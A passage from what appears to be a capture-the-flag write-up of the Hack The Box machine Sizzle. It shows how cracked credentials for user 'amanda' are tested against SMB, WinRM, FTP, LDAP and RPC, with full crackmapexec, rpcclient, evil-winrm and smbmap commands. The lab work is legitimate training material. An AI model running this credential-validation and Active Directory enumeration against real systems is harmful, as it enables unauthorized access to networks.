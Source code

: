 
With `crackmapexec` I check that the credentials are valid, but at the moment they are not useful to connect through **WinRM** protocol with `evil-winrm`. Maybe the passwords will help me to enumerate with `ftp`, but the authentication fails, I have no luck with **[LDAP](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-ldap.html?highlight=ldap#389-636-3268-3269---pentesting-ldap){:target="_blank"}** when using `ldapsearch`, so now it is the turn of **RPC**, I succeed to access with `rpcclient` and leak users, groups, metadata of the **Administrator** and **amanda** user accounts, but nothing relevant for the moment. With `smbmap` and `smbclient` I don't find new resources to which I now have access, but something that I had overlooked, a folder that would be related to the **AD Certificate Services** (I'll write it down to keep it in mind later).

```bash
crackmapexec smb 10.10.10.103 -u amanda -p 'Ashare1972'         # :)
crackmapexec winrm 10.10.10.103 -u amanda -p 'Ashare1972'       # :(

ftp sizzle.htb.local 21

rpcclient -U "amanda%Ashare1972" 10.10.10.103
  enumdomusers
  enumdomgroups

rpcclient -U "amanda%Ashare1972" 10.10.10.103 -c 'enumdomusers'
rpcclient -U "amanda%Ashare1972" 10.10.10.103 -c 'enumdomgroups'
rpcclient -U "amanda%Ashare1972" 10.10.10.103 -c 'queryuser 0x1f4'
rpcclient -U "amanda%Ashare1972" 10.10.10.103 -c 'queryuser 0x644'

gem install evil-winrm
evil-winrm -i 10.10.10.103 -u 'amanda' -p 'Ashare1972'
# An error of type WinRM::WinRMHTTPTransportError happened... :(

ldapsearch -x -H ldap://10.10.10.103 -D 'sizzle\ldap' -w 'Ashare1972' -b "DC=sizzle,DC=htb"    # :(

smbclient -L 10.10.10.103 -U 'amanda'
smbmap -H 10.10.10.103 -u 'amanda' --no-banner
smbmap -H 10.10.10.103 -u 'amanda%Ashare1972' --no-banner
```

<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
